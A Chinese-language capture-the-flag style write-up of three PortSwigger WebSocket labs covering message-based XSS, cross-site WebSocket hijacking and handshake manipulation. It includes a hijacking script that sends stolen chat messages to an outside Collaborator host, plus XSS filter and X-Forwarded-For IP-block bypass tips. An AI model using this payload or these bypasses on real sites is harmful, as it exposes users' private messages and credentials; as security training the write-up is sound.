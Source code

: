 ```yaml
---

title: PortSwigger--WebSockets
categories: [渗透靶场, PortSwigger]

---
```


## 知识扩展

### WebSocket

1. Websocket是在客户端和服务端之间建立双向通信的协议，WebSocket通信是全双工通信，多用于客服聊天、直播等需要用户与服务端互相进行数据交互的功能处，不同于HTTP请求-响应的通信模式，WebSocket允许服务端主动向客户端发送信息
2. Websocket通信的建立是在HTTP基础上进行的：客户端发起一个带有Upgrade：websocket的HTTP头部请求，要求服务端从HTTP通信切换至WebSocket通信，并且WebSocket通信一旦建立，通道将保持持久化开放，服务端和客户端之间随时可以互相发送数据，直到任何一端主动终止通信连接，不需要像HTTP一样每次通信都需要发起一个新的服务请求

## 靶场总结

1. WebSocket通信中可能存在XSS，CSRF攻击
2. WebSocket通信中的WebSockets history可能会存在隐藏的交互信息
3. IP限制可以通过添加修改X-Forwarded-For头来绕过
4. Xss弹窗中Event Handle的过滤检测可以通过大小写Event Handle进行绕过，alert函数括号可以通过"`"替换绕过



## 1.Manipulating WebSocket messages to exploit vulnerabilities

（1）开启Burpsuite代理，观察HTTP流量，在进入Live chat时，HTTP请求携带Upgrade:websocket头部，此头部要求服务端将

通信方式从HTTP通信切换至WebSocket通信

![image-20240907001923192](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409070019274.png)

（2）开启Burpsuite拦截message，发送测试数据，服务端回显用户的输入，存在XSS攻击可能

![image-20240907002210639](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409070022704.png)

（3）发送XSS弹窗代码，成功触发XSS弹窗

![image-20240907134654048](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071347188.png)

## 2.Cross-site WebSocket hijacking

（1）测试XSS弹窗，尖括号被服务端进行编码处理无法触发弹窗

![image-20240907135834331](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071358407.png)

（2）开启Burpsuite代理，观察HTTP流量，发现/chat页面的验证单独依赖于cookie，不存在其他不可预测值，存在CSRF攻击

可能，同时在WebSockets history记录中发现，在刚进入Live chat页面时，客户端给服务端发送数据:"READY"，服务端回显用户

的历史聊天记录，因此通过CSRF攻击可以获取到其他用户的历史聊天记录

![image-20240907141609054](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071416132.png)

![image-20240907141633391](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071416478.png)

![image-20240907160744893](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071607967.png)

（3）复制Burpsuite中Collaborator服务器地址到下列的fetch处，同时将Live chat页面的URL复制到new WebSocket处，注意

https需要修改成wss，随后进入Go to exploit server模块进行CSRF攻击

![image-20240907143707499](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071437569.png)

```python
<script>
  var ws = new WebSocket('wss://0afb0008038d8139808308cf00300064.web-security-academy.net/chat');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://oqiczjv563kxsxsjfpexto4cn3tvhm5b.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
```

![image-20240907143850432](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071438508.png)

（4）多点击几次Poll now刷新，在最终的HTTP流量中可以看到carlos用户聊天记录中泄露了用户密码

![image-20240907143929722](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071439809.png)

![image-20240907144006908](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071440977.png)

## 3.Manipulating the WebSocket handshake to exploit vulnerabilities

（1）测试XSS弹窗，通信连接中断，尝试重连服务端回显："This address is blacklisted"

![image-20240907144513213](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071445282.png)

![image-20240907144636392](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071446470.png)

（2）在重连请求中添加XFF头绕过IP限制，重连成功

![image-20240907144805756](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071448832.png)

![image-20240907144842173](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071448261.png)

（3）多次修改XFF头，根据服务端错误回显，逐步尝试，确认服务端过滤了数据中的事件名称和alert函数的括号

![image-20240907154902366](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071549437.png)

![image-20240907154928029](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071549105.png)

![image-20240907155001226](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071550311.png)

![image-20240907155155782](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409071551864.png)

